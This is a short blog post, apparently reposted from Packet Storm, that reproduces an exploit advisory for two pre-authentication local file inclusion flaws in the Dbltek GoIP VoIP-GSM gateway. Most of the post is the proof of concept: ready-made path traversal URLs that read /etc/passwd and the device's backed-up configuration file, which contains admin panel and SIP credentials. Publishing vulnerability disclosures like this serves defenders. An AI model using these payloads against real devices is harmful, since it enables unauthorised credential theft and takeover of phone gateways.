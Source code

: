 ```yaml
---
layout: post
title: Dbltek GoIP GHSFVT-1.1-67-5
date: 2022-02-21 03:32 +0300
categories: [Exploits, File Inclusion]
tags: [exploits]
---
```









![](../../../assets/img/Exploits/dbitek.png)

The Dbltek GoIP, which is running firmware version GHSFVT-1.1-67-5, has a vulnerability related to local file inclusion.

  

```
MD5 | 1da824e80cedd24b390e4caee1202eb9
```

```perl
    # Exploit Title: Dbltek GoIP - Local File Inclusion
    # Date: 20.02.2022
    # Exploit Author: Valtteri Lehtinen & Lassi Korhonen
    # Vendor Homepage: http://en.dbltek.com/index.html
    # Software Link: -
    # Version: GHSFVT-1.1-67-5 (firmware version)
    # Tested on: Target is an IoT device
    
    # Exploit summary
    Dbltek GoIP-1 is a VoIP-GSM gateway device, which allows making calls and sending SMS messages using SIP.
    The device has a webserver that contains two pre-auth Local File Inclusion vulnerabilities.
    
    Using these, it is possible to download the device configuration file containing all device credentials (including admin panel credentials and SIP credentials) if the configuration file has been backed up.
    
    It is probable that also other models and versions of Dbltek GoIP devices are affected.
    
    Writeup: https://shufflingbytes.com/posts/hacking-goip-gsm-gateway/
    
    # Proof of Concept
    Assuming the device is available on IP 192.168.9.1.
    
    Download /etc/passwd
    http://192.168.9.1/default/en_US/frame.html?content=3D..%2f..%2f..%2f ..%2f..%2fetc%2fpasswd
    http://192.168.9.1/default/en_US/frame.A100.html?sidebar=3D..%2f..%2f ..%2f..%2f..%2fetc%2fpasswd
    
    Download device configuration file from /tmp/config.dat (requires that the configuration file has been backed up)
    http://192.168.9.1/default/en_US/frame.html?content=3D..%2f..%2f..%2f..%2f..%2ftmp%2fconfig.dat
    http://192.168.9.1/default/en_US/frame.A100.html?sidebar=3D..%2f..%2f..%2f..%2f..%2ftmp%2fconfig.dat
```
{: .nolineno }
    
<br>
  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)
